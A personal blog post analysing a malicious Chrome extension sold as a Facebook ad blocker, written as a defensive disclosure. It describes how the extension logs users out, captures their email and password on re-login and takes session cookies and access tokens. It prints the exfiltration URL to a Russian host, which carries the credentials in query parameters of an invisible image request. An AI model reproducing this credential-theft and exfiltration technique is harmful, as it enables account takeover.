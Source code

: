 ```yaml
---
layout: post
title: Inside a malicious Chrome Extension
---
```

Today I saw a sketchy Facebook ad, an empty “Blogging” site with stock photos advertised an “Ad blocker for Facebook”.

I checked out the site, and saw that it only had negative reviews, stating that it didn’t work and slowed down their browser. This made me curious.

## The Extension
![Screenshot from the Chrome Web Store]({{site.url}}/public/chrome_extension_title.jpg)

The extension claims to block out Facebook advertisements, and — ironically — advertises itself on Facebook for it. This strategy is quite simple but ingenious, I mean who likes to see ads while browsing Facebook? Also if you are seeing their advertisement, you obviously have no AdBlocker installed for it.

The Chrome Web Store says it has a total of 10k+ users.

## Behind the Scenes

Analyzing Google Chrome Extensions can be quite easy, atleast when the code — like in this example — isnt obfuscated.

You can just download it, get the unique extension ID from chrome://extensions, and then look at the source code found in your Profile Folder\Extensions\IDofYourExtension.

## Basic Structure

The Extension folder has 4 subfolders, a empty **.vs** folder, suggesting that the developers used Visual Studio, a _metadata folder filled with file hashes, this seems to be a Chrome Extension standard to guarantee that the files haven’t been modified or corrupted, a **img** folder with the extension logo, and finally the interesting part: A folder named **js**.

This folder has a total of 4 non obfuscated JavaScript files, and — *as all good JavaScript programs* — a jQuery dependency.

We will focus on 2 files: **background.js** and **fb3.js**.

In background.js, a listener is added when the Chrome extension is installed, it waits 25 seconds until it executes the function **s_fun_en()**

{% gist 7e8d06bcadafce622d6d4c92872c3e72 background.js %}

The delay of 25 seconds is interesting, the extension tries to not raise suspicion with a variety of timing strageties.

The function **s_fun_en()** is full of these timing strageties. First it creates a timestamp, and saves it to the variable **n**, which will later be compared to the **app.lt** variable, while ensuring that **app.lt** is not the default value of **0**.

**app.lt** is the timestamp of installation, the function **s_fun_en()** results in nothing until 11 hours have passed since the installation.

{% gist 115b6e212affcb2945c1f7b4a5aee6eb background.js %}

This condition is true when **n** (the current timestamp) is bigger than the installation timestamp + 11 hours.

If 11 hours have passed the extension begins working: It removes 2 cookies from Facebook, resulting in deauthentication, and also marks the time when the user was kicked out of his Facebook account in the **app.ltr** variable.

This helps the extension to remain under the radar, so the user does not raise suspicion when he is logged out directly after installing this extension.

This is when we have a look at the **fb3.js** file, it listens for the moment when the user is logging into Facebook again.

The extension steals the E-Mail and password, and sends it to the message listener in **background.js**

{% gist 044fd5c39cb1f0ad46dd770ac1b8bf19 fb3.js %}

The listener saves the E-Mail and password combination into the **app.ld** variable, and proceeds to store the **c_user** cookie in **app.u**, containing the unique ID of the victims Facebook profile. If it can’t find this cookie, it executes the function again, until it gives up after a minute.

The **fb3.js** has another function, which constantly tries to grab the Facebook access token, if it succeeds it is also stored in **app.t**

{% gist 6acf2a878e1cb69521cb2a7dfdcc6072 background.js %}

So now the extension has successfully grabbed the E-Mail and Password, the unique ID, and the access token.

The obtained information is quite critical, the E-Mail and Password could be used to access the users Facebook account, or to access other accounts in which the same combination is used.

**The extension has gathered a lot of information, the breaking point however is how it transfers this information back to the owner.**

## The Exfil

Typically, malware has a breaking point: The Exfiltration of it's stolen data, or contacting a C&C Server to receive further instructions.

While code can be obfuscated, and (most of the times) gives no clue to whoever made it, the malware has to contact some server (which can be reported, to law enforcement or easier the hosting provider) to submit it’s findings.

After all the work on the local side is done, **background.js** get’s to work again:

It checks if all the needed data is grabbed, and saves the E-Mail password combination into **d**, base64 encodes it, and then embeds a picture.

{% gist e1810d7eec2b783cef019d445bc76613 background.js %}

The picture is generated from www.en-antibanner.ru/img.php , and the extension adds a lot of parameters to it.

``https://en-antibanner.ru/img.php?d=EMailAndPassword&u=UserID&l=&rnd=RandomNumber``

This picture is 1x1 big, so you really wouldn’t see it.

Loading an image, rather than making a POST request to some sketchy server, is less likely to be detected.

## Measures taken

I reported the extension to the Chrome Web Store and Facebook, I will talk more about in a second. *Note from future Altay: Chrome took it down, and also heavily improved their extension security with [Manifest V3](https://developer.chrome.com/docs/extensions/mv3/intro/)*

I had a quite funny idea: What would happen if you would trash their database by adding tons and tons of random data. They would get the infected users credentials for sure, but they would have to search for it between all the junk data.

I wrote a quick JavaScript which creates a fake E-Mail and Password combination, a fake User ID and then sends it to the server.

You can add fake data by visiting this [JSFiddle](https://jsfiddle.net/ozj1mhpu/) and hitting the “Run” Button, once, twice or maybe a thousand times. *Future Altay: The website is down, it was fun nonetheless*

**Thank you for reading!** I am not quite sure how to think about this, Chrome Web Store has virtually no security measures, I wasn’t warned that this file could be a virus and the extension seems to be able to do just about everything, while users can install it with one-click. *Future Altay: Manifest V3 is better I guess, although users will probably accept every single permission requested*

[You can look into the extension yourself, I uploaded it to my GitHub](https://github.com/AltayAkkus/FacebookAdBlocker)